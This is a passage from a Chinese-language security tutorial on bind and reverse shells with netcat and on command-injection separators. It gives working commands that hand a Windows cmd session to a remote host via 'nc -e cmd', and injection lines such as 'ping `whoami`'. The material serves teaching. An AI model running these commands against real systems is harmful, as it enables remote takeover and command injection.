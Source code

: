 此外，反弹Shell又分为两种连接类型：正向连接和反向连接，也称为正向Shell和反向Shell。正向或反向，它们都不是一个固定的方向，需要在攻击者或目标两者中取一个角色来进行相对定向，例如，对于攻击者而言，攻击者主动向目标发起连接，这就是正向连接

对于攻击者而言，目前的市面上常见的系统上默认的防火墙规则和网络NAT技术的广泛应用，已经杜绝了大部分的正向连接的可能性，大部分时候反向连接成功的可能性更大，即由目标主动向攻击者发起连接。若无特别声明，下文描述的所有方向都以攻击者视角出发

#### 2.1.2.1 正向连接

1. Windows使用nc工具监听8080端口

   ```cmd
   nc.exe -e cmd -lvvp 8080
   	-l：启用监听模式
   	-p：指定监听端口
   	-v：显示详细信息
   ```

   在使用nc工具监听端口前，需要检查一下Windows的防火墙规则，需要手动放行入站端口或直接关闭防火墙进行测试

2. Linux使用nc工具连接Windows的8080端口

   ```bash
   nc 192.168.104.212 8080
   ```

#### 2.1.2.2 反向连接

1. Linux使用nc工具监听8080端口

   ```bash
   nc -lvvp 8080
   ```

2. Windows使用nc工具将自身cmd程序会话主动映射到目标主机

   ```cmd
   nc.exe -e cmd 192.168.104.117 8080
   ```

上述示例中，无论是正向连接或反向连接，实现的结果都是将Windows的cmd程序的会话映射到Linux系统上，然后在Linux系统上就可以直接执行cmd指令远程管理Windows系统，即实现攻击者通过反弹Shell取得了目标的远程管理权限

如果抛开攻击者和目标的观念，仅从nc工具的角度出发，在上述实验中，nc工具也可以实现Windows反过来远程管理Linux系统。工具已经实现了功能，但怎么使用仍取决于人

### 2.1.3 数据回显

此处需要先了解一下Windows和Linux系统上的一些特殊符号，这些特殊符号大多是管道符、逻辑运算符、后台任务符，其中";"和"``"是Linux系统独有的符号

```
Windows：|、&、||、&&
Linux：;、|、||、&、&&、``
```

无论使用什么系统，在系统上执行的命令有误或命令参数有误时，系统都会产生错误回显，这个机制原本是便于系统管理员更快处理异常问题，但攻击者同样可以利用这个机制获取一些特定信息或执行一些特殊命令，例如，借助ping命令来获取当前账户信息

```cmd
ping; whoami     # ;符号属于Linux系统独有，此命令只能在Linux系统上使用
ping `whoami`    # 报错会提示找不到“主机名”，这个主机名实际上就是当前登录的账户名
ping | whoami    # 管道符多平台通用
```
